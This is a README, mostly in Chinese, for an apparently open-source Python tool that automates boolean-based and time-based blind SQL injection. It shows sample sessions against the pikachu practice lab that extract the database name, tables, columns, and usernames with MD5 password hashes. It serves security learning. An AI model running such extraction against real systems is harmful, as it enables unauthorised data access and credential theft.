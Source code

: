 # sql_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sql_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

#环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
>>> from sqli_blind import *
然后调用各函数即可

#示例

##布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseBool()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesBool()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsBool()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentBool()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03

##时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseTime()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesTime()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsTime()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentTime()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03
